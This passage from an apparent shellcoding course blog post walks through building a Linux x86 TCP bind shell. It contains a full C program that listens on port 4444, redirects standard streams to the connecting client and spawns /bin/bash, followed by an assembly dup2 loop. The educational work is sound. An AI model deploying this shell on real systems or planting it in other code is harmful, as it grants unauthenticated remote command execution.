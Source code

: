 section .bss

    ReceivedData:   resb 1024</code></pre><p>To summarise: after redirecting input, output, and error, the program waits to receive data from the Client Socket, using the routine <code>ReceiveData</code>, which also clear the buffer to prevent corruption.<br>After receiving the command, the <code>fork</code> syscall is employed.</p><p>The reason is due to how <code>execve</code> works: once it executes the command, it process exits, so it wouldn't return to receiving other data. In this case, forking allows us to keep a <code>parent process</code> that receives commands, and spawn a <code>child process</code> for each command executed.</p><h2 id="final-attempt">Final attempt</h2><p>Follows the visual representation of the final implementation:<br></p><figure class="kg-card kg-image-card kg-card-hascaption"><img src="__GHOST_URL__/content/images/2022/06/image-1.png" class="kg-image" alt loading="lazy" width="274" height="518"><figcaption>My final implementation of a TCP Bind Shell</figcaption></figure><h3 id="c-code-1">C Code</h3><p>After finishing the second assignment, I noticed the shellcode I wrote uses too many instructions.</p><p>To be more specific, the final block (<code>recv-memset-system</code>) is superfluous. In fact, once you redirect <code>stdin</code>, <code>stdout</code> and <code>stderr</code>, you can simply spawn a shell and the job is done:</p><pre><code class="language-cpp">#include &lt;netinet/ip.h&gt;

int main() {
    int server_socket_fd, client_socket_fd, size_client_socket_struct;
    struct sockaddr_in server_address, client_address;

    // create a TCP socket
    server_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = INADDR_ANY;
    server_address.sin_port = htons(4444);

    // bind the socket to 0.0.0.0:4444
    bind(server_socket_fd, (struct sockaddr *)&amp;server_address, sizeof(server_address));

    // passive socket that listens for connections
    listen(server_socket_fd, 1);

    // accept incoming connection
    size_client_socket_struct = sizeof(struct sockaddr_in);
    client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&amp;client_address, (socklen_t *)&amp;size_client_socket_struct);

    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    system("/bin/bash");
}</code></pre><h3 id="assembly-1">Assembly</h3><p>Here's the assembly code that starts from the <code>RepeatDuplicate</code> label:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov eax, 63

    ; Client file descriptor
    mov ebx, edi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate

SpawnShell:

    push ecx
